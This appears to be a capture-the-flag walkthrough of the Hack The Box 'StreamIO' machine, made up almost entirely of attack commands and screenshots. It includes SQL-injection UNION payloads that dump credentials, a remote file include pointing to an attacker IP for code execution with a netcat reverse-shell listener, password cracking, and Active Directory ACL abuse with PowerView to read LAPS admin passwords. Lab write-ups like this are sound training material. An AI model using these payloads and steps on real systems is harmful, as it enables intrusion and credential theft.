 ```
https://watch.streamio.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://watch.streamio.htb/FUZZ -fc 403 -e .aspx,.php,.txt,.html
https://watch.streamio.htb/search.php
10' union select 1,2,3,4,5,6 -- -
10' union select 1,@@version,3,4,5,6 -- -
10' union select 1,(select DB_NAME()),3,4,5,6 -- -
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
https://crackstation.net/
https://streamio.htb/login.php
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/FUZZ' -b PHPSESSID=uuvl3he49lki4offn75s78p6m4 -e .php
crackmapexec winrm streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
evil-winrm -i streamIO.htb -u nikk37 -p get_dem_girls2@yahoo.com
upload winPEASx64.exe
./winPEASx64.exe
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
python3 bloodhound.py -d streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -gc dc.streamio.htb -ns 10.10.11.158 -c all --zip
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
upload PowerView.ps1
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText –Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred
net group 'CORE STAFF'
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
evil-winrm -i streamIO.htb -u administrator -p e1JFg,55n-b2w5
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.11.158
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1d9d63ec-98da-48dc-a9ca-8a36d393a754)


```
nano /etc/hosts
http://streamio.htb/
http://watch.streamio.htb/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4ad7db0f-8664-4569-acec-863ac85694aa)

![image](https://github.com/regarmulia/HTB/assets/33616880/fa2c28a7-e4ed-4c2c-b545-5501266e527d)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.158/FUZZ -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://watch.streamio.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://watch.streamio.htb/aspnet_client/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bcb3c787-0be4-414a-aa4b-d13c7026594e)

![image](https://github.com/regarmulia/HTB/assets/33616880/a3ba0e61-0e94-417c-bf78-4c899acecd25)

![image](https://github.com/regarmulia/HTB/assets/33616880/35cf6102-f206-4d22-90d3-6edf6baf2d60)


```
https://streamio.htb/
https://watch.streamio.htb/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://watch.streamio.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://streamio.htb/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/66c5d747-edd2-459f-8d30-2fb9c7fcca3c)

![image](https://github.com/regarmulia/HTB/assets/33616880/cd007a1f-02d6-4512-8748-83b07fc1ed83)

![image](https://github.com/regarmulia/HTB/assets/33616880/4174f3e6-495d-45cb-8866-3da580fbb696)

![image](https://github.com/regarmulia/HTB/assets/33616880/728745d7-1f84-4590-bc15-336161ae50a5)


```
https://watch.streamio.htb/search.php
```
![image](https://user-images.githubusercontent.com/33616880/231679168-05ee4b46-32aa-44b9-9dc0-acdac11c53bb.png)


```
https://book.hacktricks.xyz/pentesting-web/sql-injection
1' and 1=1 --
1' and 1=2 --
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7418e160-7e1b-4fcb-a758-5d17f2bbac78)

![image](https://github.com/regarmulia/HTB/assets/33616880/ab276d7c-1709-480d-aec3-98a35ba705cf)


```
10' union select 1,2,3,4,5,6 -- -
10' union select 1,@@version,3,4,5,6 -- -
10' union select 1,(select DB_NAME()),3,4,5,6 -- -
10' union select 1,(SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6 -- -
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
10' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users-- -
```


![image](https://user-images.githubusercontent.com/33616880/231682312-5800f445-3c89-4aa3-8110-5de64c805117.png)
![image](https://user-images.githubusercontent.com/33616880/231682585-e0902d6b-7ac8-41c8-8a42-b7cd78fe1776.png)
![image](https://user-images.githubusercontent.com/33616880/231682816-1f5bd069-b658-41e1-8355-afecd16ba1b8.png)
![image](https://user-images.githubusercontent.com/33616880/231683062-e55c2a7f-0633-4bf9-b7d1-d1d76e48ba57.png)
![image](https://user-images.githubusercontent.com/33616880/231683260-9e522f56-bdb3-407f-86c4-7b7087301533.png)
![image](https://user-images.githubusercontent.com/33616880/231683518-ed431e05-ff5f-4803-811e-690220fd83e0.png)



![image](https://user-images.githubusercontent.com/33616880/231683958-c70902d2-5b01-42f5-8ff4-391b6e1921de.png)



https://streamio.htb/login.php
![image](https://user-images.githubusercontent.com/33616880/231684123-97a34f6f-ee6a-4801-9bff-0df23c33adbf.png)


yoshihide | 66boysandgirls..
![image](https://user-images.githubusercontent.com/33616880/231684191-deebb280-68bc-4a64-925e-27d2ae57c876.png)



![image](https://user-images.githubusercontent.com/33616880/231685199-5f8f77ea-2941-4e43-b790-ad255a05b590.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=uuvl3he49lki4offn75s78p6m4 -fs 1678
![image](https://user-images.githubusercontent.com/33616880/231685748-72927c4a-a4d4-4c78-b3cd-1f1b79687378.png)


![image](https://user-images.githubusercontent.com/33616880/231685826-403dd7d3-9fbf-4633-9a0d-eadc14d8a6bd.png)



ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/FUZZ' -b PHPSESSID=uuvl3he49lki4offn75s78p6m4 -e .php
![image](https://user-images.githubusercontent.com/33616880/231685928-48a47caa-43a2-4427-bf94-e1b796dd2339.png)


![image](https://user-images.githubusercontent.com/33616880/231686014-782672f5-2cd5-4701-ae65-e2c0a17b50a7.png)


```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
echo "PGgxPk1vdmllIG1hbmFnbWVudDwvaDE+DQo8P3BocA0KaWYoIWRlZmluZWQoJ2luY2x1ZGVkJykpDQoJZGllKCJPbmx5IGFjY2Vzc2FibGUgdGhyb3VnaCBpbmNsdWRlcyIpOw0KaWYoaXNzZXQoJF9QT1NUWydtb3ZpZV9pZCddKSkNCnsNCiRxdWVyeSA9ICJkZWxldGUgZnJvbSBtb3ZpZXMgd2hlcmUgaWQgPSAiLiRfUE9TVFsnbW92aWVfaWQnXTsNCiRyZXMgPSBzcWxzcnZfcXVlcnkoJGhhbmRsZSwgJHF1ZXJ5LCBhcnJheSgpL[SNIIIIIP]Pg0KPGJyPjxocj48YnI+DQo8Zm9ybSBtZXRob2Q9IlBPU1QiPg0KPGlucHV0IG5hbWU9ImluY2x1ZGUiIGhpZGRlbj4NCjwvZm9ybT4NCjw/cGhwDQppZihpc3NldCgkX1BPU1RbJ2luY2x1ZGUnXSkpDQp7DQppZigkX1BPU1RbJ2luY2x1ZGUnXSAhPT0gImluZGV4LnBocCIgKSANCmV2YWwoZmlsZV9nZXRfY29udGVudHMoJF9QT1NUWydpbmNsdWRlJ10pKTsNCmVsc2UNCmVjaG8oIiAtLS0tIEVSUk9SIC0tLS0gIik7DQp9DQo/Pg==" | base64 -d > master.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fd555a28-d715-4054-aec9-d71b2ccb97e0)

![image](https://github.com/regarmulia/HTB/assets/33616880/ef685788-d182-4b4e-8988-ab10073e345a)


```
system("dir C:\\");
https://streamio.htb/admin/?debug=master.php
Content-Type: application/x-www-form-urlencoded
include=http://10.10.14.39/rce.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e734346e-828d-42ac-acbe-8301d121f68d)

![image](https://github.com/regarmulia/HTB/assets/33616880/419ea432-7684-4c04-825d-99f9b08bf57d)

![image](https://github.com/regarmulia/HTB/assets/33616880/d28f9d3c-3f78-4250-9f36-94073268c901)


```
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/regarmulia/HTB/assets/33616880/7a536fc7-dd48-48aa-912b-f35f9306b243)

![image](https://github.com/regarmulia/HTB/assets/33616880/c62978fa-b9f5-456f-94e6-820969a459de)

![image](https://github.com/regarmulia/HTB/assets/33616880/3bae563b-ab72-4c7b-98e7-909c777c9eb9)


```
$connection = array("Database"=>"STREAMIO", "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h’);
dir -recurse *.php | select-string -pattern "database"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ca279069-7ef6-4bca-a83e-b82202e8242a)

![image](https://github.com/regarmulia/HTB/assets/33616880/ede2f053-a9c5-41c2-b1e1-e03c45ee34e2)


```
where.exe sqlcmd
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;“
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
```
![image](https://github.com/regarmulia/HTB/assets/33616880/00842f4d-19a9-4136-ac87-0324c027facc)


```
hashcat user-passwords-backup /usr/share/wordlists/rockyou.txt -m0 --user
```
![image](https://github.com/regarmulia/HTB/assets/33616880/df33cfcb-58d1-49f1-9693-80ebc98060c1)

![image](https://github.com/regarmulia/HTB/assets/33616880/643e2a3d-9228-418e-85a9-196f928222d4)


```
crackmapexec smb 10.10.11.158 -u users2.txt -p pass2.txt --continue-on-success --no-bruteforce
crackmapexec winrm 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/94348f00-aa7a-491f-8b27-f3c9968f603c)

![image](https://github.com/regarmulia/HTB/assets/33616880/36eeeecf-6b91-4d35-8485-602a4c2c4292)


evil-winrm -i streamIO.htb -u nikk37 -p get_dem_girls2@yahoo.com
![image](https://user-images.githubusercontent.com/33616880/231686295-621f2f18-be32-4e7e-90af-b0dada0b1254.png)



https://github.com/carlospolop/PEASS-ng/releases
```
upload winPEASx64.exe
./winPEASx64.exe
```
![image](https://user-images.githubusercontent.com/33616880/231686514-0c6ced70-5cf4-48e3-8951-6b9ba81b18e0.png)
![image](https://user-images.githubusercontent.com/33616880/231686548-aa5a6439-c37c-4f74-a300-568f7ac4193a.png)
![image](https://user-images.githubusercontent.com/33616880/231686573-5ded1f6d-582b-41dd-adbd-30e8fa3f7b43.png)



```
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
python3 setup.py install
```
![image](https://user-images.githubusercontent.com/33616880/231689414-7ac352c9-8c51-4649-969a-1245d1e8da01.png)

```
python3 bloodhound.py -d streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -gc dc.streamio.htb -ns 10.10.11.158 -c all --zip
```
![image](https://user-images.githubusercontent.com/33616880/231689571-2822ed95-a439-4a13-bd6d-ecf916b1e419.png)



![image](https://user-images.githubusercontent.com/33616880/231689606-cd64e06c-6078-48de-a790-ecdcf6537b66.png)



```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
upload PowerView.ps1
```
![image](https://user-images.githubusercontent.com/33616880/231689707-f1d88d6e-c3cf-405a-8b91-7a4fe11edabf.png)



```
. .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText –Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred
net group 'CORE STAFF'
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

![image](https://user-images.githubusercontent.com/33616880/231689882-e7a2ef35-a3d0-4aa9-8f7f-2aa99b63203c.png)



evil-winrm -i streamIO.htb -u administrator -p e1JFg,55n-b2w5
![image](https://user-images.githubusercontent.com/33616880/231689974-20ed5dca-92b5-43ec-b985-0d56bcfacec8.png)
![image](https://user-images.githubusercontent.com/33616880/231690002-65764103-055f-4f93-8761-26278c100fcf.png)
